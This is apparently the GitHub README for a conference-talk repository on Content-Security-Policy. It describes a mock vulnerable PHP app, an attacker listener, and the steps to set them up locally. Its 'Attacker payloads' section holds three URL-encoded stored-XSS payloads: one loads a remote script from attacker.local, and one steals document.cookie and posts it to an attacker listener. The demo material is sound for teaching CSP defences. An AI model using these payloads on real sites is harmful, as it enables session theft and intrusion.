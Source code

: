 # Research on Content-Security-Policy

## Introduction

💬 This folder contains all my work for the presentation about Content-Security-Policy (CSP) given at the [VOXXED LU 2024](https://mobile.devoxx.com/events/voxxedlu24/talks/2213/details) conference..

💻 [VSCode](https://code.visualstudio.com/) was used as main [IDE](https://en.wikipedia.org/wiki/Integrated_development_environment).

💻 A distribution of [Chromium](https://chromium.woolyss.com/download/en/) for Windows was used to work on this research. It was stored in a folder, named **chromium**, located at the root of the project folder (added to [git ignore file](.gitignore)).

## Talk

https://www.youtube.com/watch?v=kJ8xixzH9mc

## Content

* 📄 Files:
  * [code.code-workspace](code.code-workspace): VScode workspace descriptor.
  * [pitch.docx](pitch.docx): Contains the synopsis, in french, of the presentation.
  * [presentation.pptx](presentation.pptx): Contains the presentation.
  * [presentation-schemas.md](presentation-schemas.md): Contains the schemas used into presentation created using [mermaid](https://mermaid.js.org/).
  * [scratchpad.md](scratchpad.md): Contains all the technical notes and information gathered during the work on the presentation and related technical research.
* 📂 Folders:
  * [app](app/): Contains the mock web application with the XSS used for the context of the presentation.
  * [attacker](attacker/): Contains the web listeners and payloads used to exploit the XSS as the attacker.
  * [exports](exports/): Contains different formats of the presentation.  
  * [sources](sources/): Contains the original files of different elements used.

## Run the app

📑 **Step 1** - Add these entries to your **hosts** file:

```text
127.0.0.1 attacker.local
127.0.0.1 righettod.local
```

 👨‍💻 **Step 2** - Run the following command, from the **attacker** folder:

```powershell
PS> php -S localhost:9000
PHP 7.3.4 Development Server started 
Listening on http://0.0.0.0:9000
```

👨‍💻 **Step 3** - Run the following command, from the **app** folder:

```powershell
PS> php -S localhost:8000
PHP 7.3.4 Development Server started 
Listening on http://0.0.0.0:8000
```

🌏 Then, browse on <http://localhost:8000> to access the sample app.

## Attacker payloads

😈 This is the content to add into the file [comments.json](app/store/comments.json) of the app to simulate the differents stored XSS performed by the attacker:

```json
[
    {
        "userName": "remote payload",
        "userEmail": "dom@attacker.lu",
        "userComment": "%3Cimg+src%3D%27x%27+onerror%3D%27%24.getScript%28%5C%22%2F%2Fattacker.local%3A9000%2Fpayload.js%5C%22%29%27%3E"
    },
    {
        "userName": "embedded payload v1",
        "userEmail": "dom@attacker.lu",
        "userComment": "%3Cimg%20src%3D%27x%27%20onerror%3D%27fetch%28%5C%22%2Fapi%2Ephp%3Fsource%3Dxss%5C%22%29%3Balert%28%5C%22Evil%20code%20loaded%20%3A%29%5C%22%29%3B%27%3E"
    },
    {
        "userName": "embedded payload v2",
        "userEmail": "dom@attacker.lu",
        "userComment": "%3Cimg%20src%3D%27x%27%20onerror%3D%27let%20cke%3Dbtoa%28document%2Ecookie%29%3Blet%20bdy%3Ddocument%2EgetElementsByTagName%28%5C%22body%5C%22%29%5B0%5D%3Blet%20frm%3Ddocument%2EcreateElement%28%5C%22form%5C%22%29%3Bfrm%2EsetAttribute%28%5C%22method%5C%22%2C%5C%22post%5C%22%29%3Bfrm%2EsetAttribute%28%5C%22action%5C%22%2C%5C%22%2F%2Fattacker%2Elocal%3A9000%2Flistener%2Ephp%5C%22%29%3Blet%20prm%3Ddocument%2EcreateElement%28%5C%22input%5C%22%29%3Bprm%2EsetAttribute%28%5C%22type%5C%22%2C%5C%22hidden%5C%22%29%3Bprm%2EsetAttribute%28%5C%22name%5C%22%2C%5C%22data%5C%22%29%3Bprm%2EsetAttribute%28%5C%22value%5C%22%2Ccke%29%3Bfrm%2EappendChild%28prm%29%3Bbdy%2EappendChild%28frm%29%3Bfrm%2Esubmit%28%29%3B%27%3E"
    }
]
```

## References

* [Base of the mock web app](https://themewagon.com/themes/fruitables-free/).
* [PHP download for Windows](https://windows.php.net/download#php-8.3).
* [Chromium download](https://chromium.woolyss.com/download/en/).
* [Mozilla web security guidelines](https://infosec.mozilla.org/guidelines/web_security).

# License

See [here](LICENSE).

# Misc

![cfp](submission-cfp.png)
